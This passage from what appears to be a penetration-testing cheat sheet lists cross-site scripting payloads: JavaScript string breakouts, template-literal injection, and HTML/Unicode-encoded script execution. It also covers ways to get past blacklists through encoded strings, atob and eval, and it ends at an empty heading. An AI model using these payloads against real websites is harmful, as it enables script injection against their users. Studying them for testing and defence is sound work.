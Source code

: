 ```text
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```

### Template literals \`\`

In order to construct **strings** apart from single and double quotes JS also accepts **backticks** **\`\`\`\`\`\`\`\`** . This is known as template literals as they allow to **embedded JS expressions** using `${ ... }` syntax.  
Therefore, if you find that your input is being **reflected** inside a JS string that is using backticks, you can abuse the syntax `${ ... }` to execute **arbitrary JS code**:

This can be **abused** using: `${alert(1)}`

### Encoded code execution

```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```

### JavaScript bypass blacklists techniques

#### Strings

```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```

#### Space substitutions inside JS code

```javascript
<TAB>
/**/
```

#### JavaScript without parentheses
